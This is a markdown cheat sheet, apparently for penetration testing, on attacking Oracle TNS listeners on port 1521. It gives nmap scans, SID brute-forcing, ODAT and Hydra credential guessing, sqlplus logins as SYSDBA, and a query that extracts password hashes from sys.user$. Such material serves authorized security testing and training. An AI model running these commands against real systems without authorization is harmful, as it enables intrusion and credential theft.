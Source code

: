 ### Oracle TNS - Transparent Network Substrate - Port 1521
#### Scanning for Oracle TNS Services
```bash
nmap -p 1521 --script oracle-tns-version <IP>
```
Brute-force Oracle SIDs:
```bash
nmap --script oracle-sid-brute -p 1521 <IP>
```
Scan for known vulnerabilities:
```bash
nmap -p 1521 --script oracle-vuln-* <IP>
```

#### Oracle Enumeration with ODAT
ODAT (Oracle Database Attacking Tool) is useful for enumeration and exploitation.
```bash
git clone https://github.com/quentinhardy/odat.git
cd odat/
pip3 install -r requirements.txt
```
Check if the target is properly configured:
```bash
./odat.py all -s <IP>
```
Find valid credentials:
```bash
./odat.py passwordguesser -s <IP> -d XE -U users.txt -P passlist.txt
```
#### Brute-forcing Oracle Credentials
Using Hydra:
```bash
hydra -L users.txt -P passwords.txt <IP> oracle-listener
```

#### Connecting to Oracle Database
Using SQLPlus:
```bash
sqlplus <username>/<password>@<IP>/<SID>
```
Example:
```bash
sqlplus <USERNAME>/<PASSWORD>@<TARGET_IP>/<DATABASE_SID>
```
Connecting as SYSDBA:
```bash
sqlplus <USERNAME>/<PASSWORD>@<TARGET_IP>/<DATABASE_SID> as sysdba
```

#### Enumerate Database Information
List databases:
```sql
SELECT name FROM v$database;
```
List tables in current database:
```sql
SELECT table_name FROM all_tables;
```
List user privileges:
```sql
SELECT * FROM user_role_privs;
```
Extract password hashes:
```sql
SELECT name, password FROM sys.user$;
```
